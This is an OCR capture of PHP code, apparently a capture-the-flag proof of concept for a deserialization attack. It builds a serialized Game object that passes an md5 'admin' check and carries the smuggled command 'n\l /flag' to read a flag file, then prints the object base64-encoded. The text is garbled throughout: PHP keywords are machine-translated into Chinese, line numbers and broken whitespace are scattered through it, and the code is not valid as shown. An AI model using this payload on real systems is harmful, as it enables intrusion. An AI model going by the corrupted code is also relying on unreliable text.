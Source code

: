     37   
    38   
    39   
    40   
    41   
    42   
    43   
    44   
    45   
    46   
    47   
    48  
    

|

    
    
      
    class  Game { public $username ; 公共$password ; 公共$choice ; 公共$register ;  
            
            
            
            
      
        公共  $file ; 公共$ 文件名；公开$content ; 公共函数__construct (  
            
            
          
          )  
         { $this ->username= 'user' ; $this ->password= '用户' ;     }  
              
              
      
      
        公共 函数 __wakeup () { if (md5( $this ->register)=== "21232f297a57a5a743894a0e4a801fc3" ){     // admin $this ->choice= new login( $this ->file, $this ->filename, $this ->content) ;         } else { $this ->choice = new register();         }     }公共函数__destruct (  
              
                  
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new Open(); $poc ->filename = "xxx" ; $poc ->content = "n\l /flag" ; echo base64_encode(serialize( $poc ));  
           
      
      
      
      
      
      
      
      
      
      